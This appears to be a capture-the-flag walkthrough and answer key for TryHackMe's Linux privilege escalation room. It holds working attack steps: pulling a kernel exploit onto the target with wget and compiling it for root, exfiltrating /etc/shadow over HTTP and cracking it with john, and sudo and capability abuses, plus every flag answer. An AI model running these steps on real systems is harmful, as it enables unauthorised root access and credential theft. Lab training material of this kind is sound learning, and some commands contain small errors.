










# Linux Privilege Escalation - TryHackMe

Learn the fundamentals of Linux privilege escalation. From enumeration to exploitation, get hands-on with over 8 different privilege escalation techniques.

## Overview

- **Room URL:** [https://tryhackme.com/room/linprivesc](https://tryhackme.com/room/linprivesc)
- **Difficulty:** Medium
- **Time to complete:** 50

## Walkthrough

### 1. Introduction

_No hints needed!_

### 2. What is Privilege Escalation?

_No hints needed!_

### 3. Enumeration

- What is the hostname of the target system?<br />

```bash
hostname
```



**=> Answer: `wade7363`**

- <p>What is the Linux kernel version of the target system?<br /></p>

```bash
cat /proc/verison
```



**=> Answer: `3.13.0-24-generic`**

- <p>What Linux is this?<br /></p>

```bash
cat /etc/issue
```



**=> Answer: `Ubuntu 14.04 LTS`**

- <p>What version of the Python language is installed on the system?<br /></p>

```bash
python --version
```



**=> Answer: `2.7.6`**

- <p>What vulnerability seem to affect the kernel of the target system? (Enter a CVE number)<br /></p>

- After some research with `Ubuntu` and `Linux` I found a vulnerability in [exploit-db.com](https://exploit-db.com)



**=> Answer: `CVE-2015-1328`**

### 4. Automated Enumeration Tools

_No hints needed!_

### 5. Privilege Escalation: Kernel Exploits

- <p>What is the content of the flag1.txt file?<br /></p>

- Let's run some scripts to have an overview of what we have to do:

```bash
cd /home/matt
cat flag1.txt
ls -la
```



- We can see that the file `flag1.txt` owned by `root`. Therefore, we have to get access as `root` to see the content of `flag1.txt`.
- Use the code from exploit-db.com: [https://www.exploit-db.com/exploits/37292](https://www.exploit-db.com/exploits/37292)
- In your Linux local machine:

```bash
mktemp -d
cd /tmp/tmp.xxxxxxxx
vim ofs.c
# Paste the content of the code from exploit-db.com

# Run server at port 8000 with your VPN IP
python3 -m http.server 8000
```

- In target machine (AttackBox):

```bash
mktemp -d
cd /tmp/tmp.xxxxxxx
wget http://<your_local_linux_ip>:8000/osf.c
gcc ./osf.c -o pwned
./pwned
```

- Now we have had access to root:

```bash
id
cd /home/matt
cat flag1.txt
```



**=> Answer: `THM-28392872729920`**

### 6. Privilege Escalation: Sudo

- How many programs can the user "karen" run on the target system with sudo rights?<br />

```bash
sudo -l
```



**=> Answer: `3`**

- <p>What is the content of the flag2.txt file?<br /></p>

```bash
cd /home/ubuntu
cat flag2.txt
```

**=> Answer: `THM-402028394`**

- <p>How would you use Nmap to spawn a root shell if your user had sudo rights on nmap?<br /></p>

**=> Answer: `sudo nmap --interactive`**

- <p>What is the hash of frank's password?<br /></p>
- Currently we don't have access as `root`. Follow this instruction to easily get `root` access [https://forum.dronebotworkshop.com/ros/gain-root-access-in-linux-experts-only/](https://forum.dronebotworkshop.com/ros/gain-root-access-in-linux-experts-only/)

**=> Answer: `$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1`**

### 7. Privilege Escalation: SUID

- <p >
  Which user shares the name of a great comic book writer?</p>

```bash
cat /etc/passwd
```



**=> Answer: `gerryconway`**

- <p >
  What is the password of user2?</p>
- On target machine (AttackBox):

```bash
mktemp -d
cd /tmp/tmp.xxxxxxx
base64 /etc/shadow | base64 --decode >> passwords.txt

cat passwords.txt # to see the password decode file
python3 -m http.server 8000
```

- On local machine, we will download the `passwords.txt` from the target for decoding process:

```bash
wget http://<MACHINE_IP>:8000/passwords.txt

john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```


**=> Answer: `Password1`**

- <p>What is the content of the flag3.txt file?<br /></p>

```bash
$ base64 ./flag3.txt | base64 --decode
THM-3847834
```

**=> Answer: `THM-3847834`**

### 8. Privilege Escalation: Capabilities

- <p >
  How many binaries have set capabilities?</p>

```bash
getcap -r 2>/dev/null
```

**=> Answer: `6`**

- <p >
  What other binary can be used through its capabilities?</p>

```bash
cd /home/ubuntu
ls -la
```

- You can see there is a binary file called `view`

**=> Answer: `view`**

- <p >
  What is the content of the flag4.txt file?</p>

```bash
ls -la
```

- `view` binary file is owned by `root` and it run Vim, so we can take advantage of it to see content of `flag4.txt`:

```bash
./view ./flag4.txt
```

**=> Answer: `THM-9349843`**

### 9. Privilege Escalation: Cron Jobs

- How many user-defined cron jobs can you see on the target system?<br />

```bash
cat /etc/crontab
```



**=> Answer: `4`**

- What is the content of the flag5.txt file?

**=> Answer: `THM-383000283`**

- <p>What is Matt's password?<br /></p>

**=> Answer: `123456`**

### 10. Privilege Escalation: PATH

- <p >
  What is the odd folder you have write access for?</p>

```bash
cd /home
ls
```

**=> Answer: `/home/murdoch`**

- <p >
  What is the content of the flag6.txt file?</p>

**=> Answer: `THM-736628929`**

### 11. Privilege Escalation: NFS

- How many mountable shares can you identify on the target system?<br />

**=> Answer: `3`**

- How many shares have the "no_root_squash" option enabled?<br />

**=> Answer: `3`**

- <p>What is the content of the flag7.txt file?<br /></p>

**=> Answer: `THM-89384012`**

### 12. Capstone Challenge

- What is the content of the flag1.txt file?

**=> Answer: `THM-42828719920544`**

- <p>What is the content of the flag2.txt file?<br /></p>

**=> Answer: `THM-168824782390238`**
